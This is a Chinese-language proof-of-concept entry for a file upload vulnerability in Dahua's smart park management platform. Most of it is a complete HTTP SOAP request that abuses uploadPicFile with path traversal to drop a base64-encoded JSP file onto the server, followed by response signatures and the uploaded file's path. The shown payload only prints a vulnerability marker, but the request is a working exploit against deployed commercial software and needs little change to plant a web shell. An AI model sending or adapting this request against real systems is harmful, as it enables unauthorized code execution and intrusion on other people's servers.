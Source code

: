 ﻿# 大华智慧园区综合管理平台文件上传漏洞3

> 更新时间：2023-12-04

> 漏洞编号：

> 漏洞说明：

> 漏洞特征：

> 验证脚本：HTTP

```
POST /emap/webservice/gis/soap/poi HTTP/1.1
Cookie: JSESSIONID=EF1B791C2906D7DB17B9D533FDD47795
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Dnt: 1
Upgrade-Insecure-Requests: 1
Connection: close
Content-Type: application/x-www-form-urlencoded

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:res="http://response.webservice.poi.mapbiz.emap.dahuatech.com/">
   <soapenv:Header/>
   <soapenv:Body>
      <res:uploadPicFile>
         <arg0>/../../security.jsp</arg0>
         <arg1>PCVAcGFnZSBpbXBvcnQ9ImphdmEudGV4dC4qLGphdmEudXRpbC4qLGphdmEuaW8uKiIlPgo8JQogICAgICBvdXQucHJpbnRsbigiVGhlcmUgYXJlIHZ1bG5lcmFiaWxpdGllcyBpbiB0aGUgd2Vic2l0ZS4iICk7CiU+</arg1>
      </res:uploadPicFile>
   </soapenv:Body>
</soapenv:Envelope>
```

> 响应代码特征：200

> 响应内容特征：^(?=.*?code)(?=.*?1).*?$

> 上传文件定位：/upload/security.jsp

> 验证文件来源：大华智慧园区综合管理平台文件上传漏洞3.poc
